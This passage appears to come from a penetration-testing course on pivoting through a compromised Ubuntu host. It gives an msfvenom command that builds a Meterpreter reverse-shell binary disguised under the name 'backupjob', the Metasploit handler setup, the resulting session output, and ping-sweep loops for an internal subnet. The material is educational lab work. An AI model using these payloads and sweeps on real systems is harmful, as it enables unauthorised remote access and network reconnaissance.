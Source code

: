  Now let us consider a scenario where we have our Meterpreter shell access on the Ubuntu server (the pivot host), and we want to perform enumeration scans through the pivot host, but we would like to take advantage of the conveniences that Meterpreter sessions bring us.

#### Creating Payload for Ubuntu Pivot Host
```shell
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.18 -f elf -o backupjob LPORT=8080
```

Before copying the payload over, we can start a [multi/handler](https://www.rapid7.com/db/modules/exploit/multi/handler/), also known as a Generic Payload Handler.
#### Configuring & Starting the multi/handler
```shell
use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 8080
lport => 8080
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 0.0.0.0:8080 
```

We can copy the `backupjob` binary file to the Ubuntu pivot host `over SSH` and execute it to gain a Meterpreter session.
#### Executing the Payload on the Pivot Host
```shell
ubuntu@WebServer:~$ chmod +x backupjob 
ubuntu@WebServer:~$ ./backupjob
```

#### Meterpreter Session Establishment
```shell
[*] Sending stage (3020772 bytes) to 10.129.202.64
[*] Meterpreter session 1 opened (10.10.14.18:8080 -> 10.129.202.64:39826 ) at 2022-03-03 12:27:43 -0500
meterpreter > pwd
```

We know that the Windows target is on the 172.16.5.0/23 network. So assuming that the firewall on the Windows target is allowing ICMP requests, we would want to perform a ping sweep on this network. We can do that using Meterpreter with the `ping_sweep` module, which will generate the ICMP traffic from the Ubuntu host to the network `172.16.5.0/23`.

#### Ping Sweep
```shell
meterpreter > run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23
```

#### Ping Sweep For Loop on Linux Pivot Hosts
```shell
for i in {1..254} ;do (ping -c 1 172.16.5.$i) | grep "bytes from" &) ;done
```
#### Ping Sweep For Loop Using CMD
```cmd-session
for /L %i in (1 1 254) do ping 172.16.5.%i -n 1 -w 100 | find "Reply"
```
#### Ping Sweep Using PowerShell
```powershell
1..254 | % {"172.16.5.$($_): $(Test-Connection -count 1 -comp 172.16.5.$($_) -quiet)"}
```
